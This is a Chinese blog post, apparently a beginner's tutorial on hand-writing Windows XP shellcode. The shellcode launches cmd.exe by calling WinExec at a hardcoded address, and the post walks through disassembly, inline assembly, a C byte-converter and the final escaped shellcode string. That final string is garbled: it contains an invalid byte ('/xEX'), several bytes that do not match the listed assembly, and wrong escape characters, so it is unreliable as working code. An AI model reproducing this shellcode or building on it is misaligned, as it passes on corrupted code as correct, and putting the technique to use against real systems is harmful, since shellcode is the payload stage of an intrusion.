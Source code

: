 ```yaml
---
layout: post
categories: shellcode
title: Shell初级入门程序
date: 2018-04-11 13:12:45 +0800
description: shellcode 进行服务器的渗透
keywords: shellcode linux
---
```


## 前言

很久没有写博客了，今天写写一个以前没有写过的话题，缓冲区溢出shellcode编写。

我是菜鸟，以前没有写过shellcode，最近也在忙着网络的渗透，栈溢出也是零零碎碎的看到一些知识，大牛飘过，菜鸟言论仅供娱乐。

大家同是菜鸟的人可以看看，我是站在初学者的角度写这篇文章的，所以初学者应该比较容易理解。

对于一些复杂的shellcodet我们暂且先不谈，我们先来看看自己编写一个打开cmd窗口的shellcode。其实黑客防线上有位大神执笔写了一系列exploit的编写，有兴趣的人自己去看看。

## 首先我们需要了解一下windows的运行机制。我们先写一个简单的开启本地cmd窗口的程序：

```c
#include<windows.h>  
Void main()  
{  
   WinExec("cmd.exe",1);  
} 
```


### 在Visual C++上按F10进入反汇编代码:

```c
:#include”windows.h”  
2:void main()  
3:    {  
00401010   push        ebp  
00401011   mov         ebp,esp  
00401013   sub         esp,40h  
00401016   push        ebx  
00401017   push        esi  
00401018   push        edi  
00401019   lea         edi,[ebp-40h]  
0040101C   mov         ecx,10h  
00401021   mov         eax,0CCCCCCCCh  
00401026   rep stos    dword ptr [edi]  
4:        WinExec("cmd.exe",1);  
00401028   mov         esi,esp  
0040102A   push        1  
0040102C   push        offset string "cmd.exe" (0041f01c)  
00401031   call        dword ptr [__imp__WinExec@8 (0042413c)]  
00401037   cmp         esi,esp  
00401039   call        __chkesp (00401070)  
5:    }  
```


通过这个程序我们可以清楚的看到计算机在调用WinExec函数的时候是先把两个参数从右至左一次压入栈，然后调用call函数转到WinExec的地址去。但是要注意的是call函数除了实现地址的跳转还有一点就是把当前的EIP压入栈。

对于shellcode是机器码，大多数人看到都会晕乎乎的，但是不用怕，我们所要做的工作不是用机器码写这一大堆东西，这些计算机已经为我们做的很好了，我们所要做的就是用汇编甚至是高级语言写下我们要实现的代码。




但目前其实目的已经很明确，我们要调用WinExec函数就要知道在不同系统中WinExec函数所在的地址，那么用什么方法知道这个函数所在的地址呢？这里我介绍一种非常简便的办法，使用vc自带的depends工具。打开Depends，随便拖一个PE文件进去如下图：

![](http://zmatsh.b0.upaiyun.com/demos/feb1aef7-5ae0-43d1-bdbf-b234589fa766.jpeg)


我们可以看到KERNEL.DLL的入口地址是0x7c800000而WinExec的入口地址是0x0006250D那么WinExec的地址就出来了两个相加得到0x7C86250D，这个方法是不是很简单？另外本菜鸟使用的是windows XP sp3不同的系统可能有所不同。

有了入口地址，我们可以用汇编来编写我们的shellcode，

```c
#include<windows.h>  
void main()  
{  
    _asm  
    {  
        push ebp  
        mov ebp,esp  
        xor edi,edi  
        push edi  
        sub esp,04h  
        mov [ebp-08h],63h  
        mov [ebp-07h],6Dh  
        mov [ebp-06h],64h  
        mov [ebp-05h],2Eh  
        mov [ebp-04h],65h  
        mov [ebp-03h],78h  
        mov [ebp-02h],65h  
        push 1         //压入第一个参数  
        lea eax,[ebp-08h]           
        push eax           //压入第二个参数  
        mov edx,0x7C86250D  
        call edx            //调用WinExec  
        leave  
    };  
}  

```

按F10进入反汇编调试器中，在按Alt+8看到汇编代码，此时并没有机器码啊，别着急，在空白的地方右击出现的下拉菜单中选中Code Byte一项。看看出现了什么？在每一行汇编代码前出现了机器码！如下图

![](http://zmatsh.b0.upaiyun.com/demos/0d6ce28d-d9c8-47b8-b21b-1eeb923c9754.bmp)

下面要做的工作就是把这些机器码抄下来了，这个是体力活。直接抄在一起比如：558BEC83EC……那么我们还要在每两个字母前手动添加/x么？当然不用，写一个小程序，一劳永逸：

```c
#include "stdio.h"  
#include "stdlib.h"  
int main()  
{  
    FILE *fp1=NULL,*fp2=NULL;  
    char ch,filename[20]={0};  
    printf("请输入文件路径：(注意字符转义)/n");  
    scanf("%s",filename);  
    if((fp1=fopen(filename,"rb"))==NULL)  
    {  
        printf("不能读取文件！/n");  
        exit(0);  
    }  
    if((fp2=fopen("shellcode.txt","w+"))==NULL)  
    {  
        printf("不能写入文件！/n");  
        exit(0);  
    }  
    while (!feof(fp1))  
    {  
        ch=fgetc(fp1);  
        fputc('//',fp2);  
        fputc('x',fp2);  
        fputc(ch,fp2);  
        ch=fgetc(fp1);  
        fputc(ch,fp2);  
    }  
    printf("转换成功！");  
    fclose(fp1);  
    fclose(fp2);  
    return 0;  
      
}  
```

最终转换的shellcode就是

```c
/x55/x8B/xEX/x83/xEC/x40/x53/x56/x57/x8D/x7D/xC0/xB9/x10/x11/x11/x11/xB8/xCC/xCC/xCC/xCC/xF3/x1B/x55/x8B/xEC/x33/xFF/x57/x83/xEC/x04/xC6/x45/xF8/x63/xC6/x45/xF9/x6D/xC6/x45/xFA/x64/xC6/x45/xFB/x2E/xC6/x45/xFC/x65/xC6/x45/xFD/x78/xC6/x45/xFE/x65/x6A/x01/x8D/x45/xF8/x50/xBA/x0D/x25/x86/x7C/xFF/xD2/xC9
```
到这里该讲的都讲完了，还是那一句话，菜鸟言论，大牛飘过。。。

### 原文：https://blog.csdn.net/yiyefangzhou24/article/details/6440239






转载请注明出处，本文采用 [CC4.0](http://creativecommons.org/licenses/by-nc-nd/4.0/) 协议授权
